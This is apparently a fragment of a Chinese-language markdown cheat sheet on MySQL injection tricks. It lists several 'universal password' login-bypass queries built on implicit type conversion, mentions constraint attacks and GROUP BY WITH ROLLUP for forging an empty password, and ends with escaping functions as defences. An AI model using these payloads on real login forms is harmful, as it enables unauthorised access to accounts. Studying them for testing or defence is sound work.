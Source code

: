 ## 注释符绕过
 - 闭合绕过



<br>
<br>
# 有趣的姿势

## MYSQL万能密码
可以利用MYSQL隐式转换

 - `SELECT * FROM users WHERE username = '' = ''`
 - `SELECT * FROM users WHERE username = '' - ''`
 - `SELECT * FROM users WHERE username = '' * ''`
 - `SELECT * FROM users WHERE username = '' = ''`
 - `SELECT * FROM users WHERE username = '' / 1`
 - `SELECT * FROM users WHERE username = '' % ''`

<br>
## MYSQL约束攻击
[实例](https://ch1st.github.io/2017/10/19/Mysql%E7%BA%A6%E6%9D%9F%E6%94%BB%E5%87%BB/)


<br>
## GROUP BY WITH ROLLUP
可以利用它来构建一个空密码
![GROUPBYWITHROLLUP](gROUPBYWITHROLLUP.png)

利用它还需要注意两点
1. 必须有数据，才能构建。所以利用`username=''=''`永真条件来得到所有用户数据
2. 利用limit来读取估计第二个条目。


<br>
## 绕过未知字段名的技巧
[具体参照这](http://rcoil.me/2017/05/MySQL%E5%81%8F%E9%97%A8%E6%8A%80%E5%B7%A7/)



<br><br>

# 防御
## 过滤函数
 - `addslashes()`
 - `mysql_real_escape_string()`
 - `mysql_escape_string()`
